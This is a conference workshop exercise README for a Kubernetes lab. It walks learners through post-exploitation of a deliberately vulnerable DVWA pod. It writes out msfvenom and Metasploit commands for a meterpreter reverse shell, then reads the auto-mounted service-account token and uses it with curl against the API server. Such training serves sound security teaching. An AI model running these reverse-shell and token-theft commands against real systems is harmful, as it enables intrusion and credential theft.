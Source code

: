 # Exercise 15 (Access Control)

## Preface:
This exercise is not meant to provide you with an extensive "hacking" experience! We all know the majority of pen testing issues come from misconfiguration. Therefore we assume this container is exploitable so we will focus on post exploitation. If you do not wish to do any of the ___metasploit___ steeps, just skip to [This section]() to pick it up at the shell.

### Env Setup
- cd into the ``` KernelCon2020K8s/Exercises/Break/Files/break_e15 ``` folder and deploy the pod we will be working with.

```bash
kubectl apply -f setup.yaml
```
- this should deploy the needed resources including ingress.
- once running you should be able to access the site through the ingress port [https://k8s.kernelcon2020.org/](https://k8s.kernelcon2020.org/)
- login with the credentials ___"admin"___ and ___"admin"___

![Login1](Files/images/dvwa_login1.png)

- once logged in, scroll to the bottom and click the "Create / Reset DB" button to initialize the DB

![Login2](Files/images/dvwa_login2.png)

- When that task is complete, log back in as ___admin___ and ___password___

- continue to "MSF Setup" if you wish to breach the container via remote shell. 
- or skip down to the [Shell](#shell)

### MSF Setup

- build a meterpreter payload and put it on your desktop
- make it executable
- Make sure msf is setup and installed correctly
- enter the msfconsole

```bash
# prep the env.

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$(ifconfig eth0 |grep -i "inet " |awk '{print $2}') LPORT=4545 -f elf > ~/Desktop/rshell
chmod 0777 ~/Desktop/rshell
apt update; apt install metasploit-framework
gem install bundler
msfconsole
```

- Good now that you are in the msf console, we should setup a handler and payload
- add our eth0 IP and a port to the options
- set the ExitOnSession to false
- start listening for sessions.

```bash
### form inside msfconsole, start a 
msf> use exploit/multi/handler
msf> set payload linux/x86/meterpreter/reverse_tcp
msf> set lhost YOUR_ETH0_IP_ADDRESS
msf> set lport 4545
msf> set ExitOnSession false
msf> exploit -j
```

- you should see a session start as soon as you run the command
- enter the session, then enter the shell
- spawn a new tty

```bash
### once seeeion is open
sessions 1

### in session
shell

### spawn new tty
/bin/sh -i

```
# Shell

#### Note by default (unless you change it) k8s will auto mount the default service account for a namespace INTO EVERY POD in that namespace!!!

#### you can get at this info from inside the container via the file system @ ```/run/secrets/kubernetes.io/serviceaccount/token``` and you can get the api-server info via the two environment variables ___$KUBERNETES_SERVICE_HOST___ ___$KUBERNETES_SERVICE_PORT___

```bash
### is curl here ?

curl -k https://$KUBERNETES_SERVICE_HOST/api/v1/namespaces/default/pods/

### nope! but apt is ;-)

apt-get update && apt-get install curl

### now that we have curl we can grab the service account that was automaticly mounted into the container ...
export TOKEN=$(cat /run/secrets/kubernetes.io/serviceaccount/token)

### now that we have a token we can check our permissions

curl -k -H "Authorization: Bearer $TOKEN" https://$KUBERNETES_SERVICE_HOST/api/v1/namespaces/default/pods/




```




## Review:



## Clean up:

 [Return to schedule](../../Docs/SCHEDULE.md)